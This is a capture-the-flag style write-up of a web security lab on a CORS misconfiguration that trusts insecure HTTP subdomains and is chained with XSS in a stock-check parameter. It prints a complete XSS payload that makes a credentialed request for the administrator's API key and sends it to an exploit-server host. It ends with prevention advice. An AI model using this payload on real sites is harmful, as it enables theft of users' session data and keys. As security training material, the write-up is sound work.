

# 🔐 CORS Vulnerability with Trusted Insecure Protocols – Detailed Write-Up

## 📌 Lab Overview

This lab demonstrates a **CORS misconfiguration** where the application:

* Trusts **all subdomains**
* Does **not enforce HTTPS**, allowing insecure `http` origins
* Allows **credentialed requests** (`Access-Control-Allow-Credentials: true`)

This combination makes it possible to:

* Exploit a **cross-origin request**
* Steal sensitive data (administrator API key)
* Use an **XSS vector + insecure CORS trust**

---

## 🎯 Goal

Retrieve the **administrator’s API key** using a CORS exploit and submit it to solve the lab.

---

## 🧠 Key Concepts (Understand Before Exploiting)

### 1. CORS Misconfiguration

The server reflects arbitrary origins:

```
Access-Control-Allow-Origin: http://subdomain.lab-id
Access-Control-Allow-Credentials: true
```

👉 This means:

* Any subdomain (even attacker-controlled) is trusted
* Cookies/session credentials are included in requests

---

### 2. Why Protocol Matters

Normally, secure apps only trust:

```
https://trusted-domain.com
```

But here:

```
http://subdomain.lab-id
```

👉 Even insecure HTTP is trusted → attacker advantage

---

### 3. Attack Chain

This exploit combines:

1. **XSS vulnerability** (in productID)
2. **CORS misconfiguration**
3. **Credentialed request (cookies sent automatically)**

---

## 🔍 Step-by-Step Exploitation

---

### ✅ Step 1: Log in

Use:

```
Username: wiener
Password: peter
```

Navigate to your account page.

---

### ✅ Step 2: Identify Sensitive Request

* Open **Burp Suite → HTTP History**
* Look for request:

```
GET /accountDetails
```

👉 This returns:

* Your API key
* Includes CORS headers

---

### ✅ Step 3: Test CORS Behavior

Send the request to **Repeater** and add:

```
Origin: http://subdomain.YOUR-LAB-ID.web-security-academy.net
```

👉 Observe:

```
Access-Control-Allow-Origin: http://subdomain...
Access-Control-Allow-Credentials: true
```

✔️ CONFIRMED: Arbitrary subdomains are trusted

---

### ✅ Step 4: Find XSS Entry Point

* Go to a product page
* Click **"Check stock"**
* Notice request uses:

```
http://stock.YOUR-LAB-ID.web-security-academy.net
```

👉 Parameter:

```
productId
```

Test XSS:

```
<script>alert(1)</script>
```

✔️ XSS is possible

---

## 🚀 Step 5: Build the Exploit

We will:

1. Inject JavaScript via XSS
2. Send authenticated request to `/accountDetails`
3. Exfiltrate API key to exploit server

---

### 💣 Final Payload

Replace:

* `YOUR-LAB-ID`
* `YOUR-EXPLOIT-SERVER-ID`

```html
<script>
document.location="http://stock.YOUR-LAB-ID.web-security-academy.net/?productId=4<script>
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','https://YOUR-LAB-ID.web-security-academy.net/accountDetails',true);
req.withCredentials = true;
req.send();

function reqListener() {
    location='https://YOUR-EXPLOIT-SERVER-ID.exploit-server.net/log?key='+this.responseText;
};
</script>&storeId=1"
</script>
```

---

## ⚙️ Step 6: Deploy Exploit

1. Go to **Exploit Server**
2. Paste payload
3. Click **"View Exploit"**

👉 You should see:

* Redirect to `/log`
* Your API key in URL

✔️ Exploit working

---

### 🎯 Step 7: Deliver to Victim

1. Click **"Deliver exploit to victim"**
2. Wait a few seconds
3. Open **Access Log**

👉 You’ll find:

```
/log?key=ADMIN_API_KEY
```

---

## 🏁 Step 8: Submit Solution

* Copy the **admin API key**
* Submit it in the lab

✔️ Lab solved

---

## 🔥 Why This Works (Deep Understanding)

### Vulnerability Breakdown:

| Issue                 | Impact                      |
| --------------------- | --------------------------- |
| Trusts all subdomains | Attacker can control origin |
| Allows HTTP           | No security boundary        |
| Allows credentials    | Session cookies sent        |
| XSS present           | Code execution              |

👉 Combined → Full account data theft

---

## 🛡️ How to Prevent This (Real-World Defense)

1. **Strict Origin Validation**

   ```
   Access-Control-Allow-Origin: https://trusted-domain.com
   ```

2. **Never Allow Wildcards with Credentials**

   ```
   Access-Control-Allow-Credentials: false
   ```

3. **Enforce HTTPS Only**

4. **Sanitize Inputs (Prevent XSS)**

5. **Avoid Reflection of Origin Header**

---

## 🧩 Key Takeaway

This lab shows a powerful lesson:

> 🔥 *Small misconfigurations (CORS + XSS + HTTP trust) can chain into full account takeover.*

---

## 📚 Final Thoughts

If you understood this lab deeply, you're building real **bug bounty / pentesting mindset**:

* Think in **chains**, not single bugs
* Combine vulnerabilities creatively
* Always test **CORS + XSS together**

---

